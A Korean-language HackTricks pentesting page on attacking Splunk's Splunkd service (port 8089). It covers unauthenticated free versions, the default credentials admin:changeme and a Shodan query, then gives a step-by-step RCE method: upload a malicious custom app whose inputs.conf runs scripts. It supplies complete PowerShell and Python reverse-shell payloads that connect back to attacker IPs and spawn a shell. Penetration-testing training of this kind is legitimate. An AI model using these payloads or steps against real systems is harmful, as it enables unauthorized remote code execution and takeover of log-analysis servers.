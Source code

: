 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## **기본 정보**

* 데이터 수집, 분석 및 시각화를 위한 로그 분석 도구
* 보안 모니터링 및 비즈니스 분석에 일반적으로 사용됨
* 기본 포트:
* 웹 서버: 8000
* Splunkd 서비스: 8089

### 취약점 벡터:

1. 무료 버전 악용

* 평가판 버전은 60일 후 자동으로 무료 버전으로 전환됨
* 무료 버전은 인증이 없음
* 관리되지 않을 경우 잠재적인 보안 위험
* 관리자가 보안 문제를 간과할 수 있음

2. 자격 증명 약점

* 이전 버전: 기본 자격 증명 `admin:changeme`
* 최신 버전: 설치 중 설정된 자격 증명
* 약한 비밀번호 사용 가능성 (예: `admin`, `Welcome`, `Password123`)

3. 원격 코드 실행 기회

* 여러 코드 실행 방법:
* 서버 측 Django 애플리케이션
* REST 엔드포인트
* 스크립트 입력
* 경고 스크립트
* 크로스 플랫폼 지원 (Windows/Linux)
* 스크립트 입력은 다음을 실행할 수 있음:
* Bash 스크립트
* PowerShell 스크립트
* 배치 스크립트

주요 악용 가능성:

* 민감한 데이터 저장
* 무료 버전의 인증 부족
* 잠재적인 원격 코드 실행을 위한 여러 벡터
* 시스템 손상을 위한 스크립트 입력 활용 가능성

### Shodan

* `Splunk build`

## RCE

### 사용자 정의 애플리케이션 생성

Splunk는 사용자 정의 애플리케이션 배포를 통해 원격 코드 실행을 위한 정교한 방법을 제공하며, 크로스 플랫폼 스크립팅 기능을 활용합니다. 핵심 악용 기술은 Windows 및 Linux 시스템에서 리버스 셸을 실행할 수 있는 악성 애플리케이션을 만드는 것입니다.

사용자 정의 애플리케이션은 **Python, Batch, Bash 또는 PowerShell 스크립트**를 실행할 수 있습니다. 또한, **Splunk에는 Python이 설치되어 있으므로**, **Windows** 시스템에서도 Python 코드를 실행할 수 있습니다.

[**이 예제**](https://github.com/0xjpuff/reverse_shell_splunk)를 사용할 수 있으며, **`bin`**에는 [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) 및 [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1) 예제가 포함되어 있습니다. 또는 자신만의 것을 만들 수도 있습니다.

악용 과정은 플랫폼 전반에 걸쳐 일관된 방법론을 따릅니다:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
중요한 구성 파일 `inputs.conf`는 스크립트를 다음과 같이 활성화합니다:

* `disabled = 0` 설정
* 10초 실행 간격 구성
* 스크립트의 소스 유형 정의

배포는 간단합니다:

1. 악성 애플리케이션 패키지 생성
2. 공격 머신에서 리스너(Netcat/socat) 설정
3. Splunk의 인터페이스를 통해 애플리케이션 업로드
4. 업로드 시 자동 스크립트 실행 트리거

샘플 Windows PowerShell 리버스 셸:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
샘플 리눅스 파이썬 리버스 셸:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

다음 페이지에서는 이 서비스를 악용하여 권한을 상승시키고 지속성을 확보하는 방법에 대한 설명을 찾을 수 있습니다:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
